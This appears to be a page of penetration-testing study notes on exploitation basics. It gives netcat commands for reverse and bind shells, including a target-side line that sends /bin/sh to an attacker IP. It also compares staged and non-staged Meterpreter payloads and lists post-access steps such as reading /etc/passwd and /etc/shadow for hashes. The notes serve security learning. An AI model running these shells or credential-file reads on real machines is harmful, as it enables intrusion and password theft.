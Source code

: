 # Exploitation Basics

## 1. Shell

**Reverse Shell** : The target connects to the attacker.

**Bind Shell** : The attacker connects to the target.

### 1.1. Reverse Shell

!!! danger "Example"
    === "Attacker"

        ```sh
        nc -nvlp 4444
        ```

    === "Target"

        ```sh
        nc <attacker IP> 4444 -e /bin/sh
        ```

### 1.2. Bind Shell

!!! danger "Example"
    === "Attacker"

        ```sh
        nc <target IP> 4444
        ```

    === "Target"

        ```sh
        nc -nvlp 4444 -e /bin/sh
        ```

## 2. Payloads

**Non-staged**|**Staged**
:-:|:-:
Sends exploit shellcode all at once|Sends payload in stages
Larger in size and won't always work|Can be less stable
Example: windows/meterpreter`_`reverse_tcp|Example: windows/meterpreter`/`reverse_tcp

## 3. Basic commands once we have access to the machine

- Try to find the IP(s) of the machine
- Check the arp table / route
- Check the sudo privileges
- Check the `/etc/passwd` file in order to see the different users of the machine (from 500)
- Check the `/etc/shadow` file in order to see the password hashes.

## 4. Brute Force Attacks

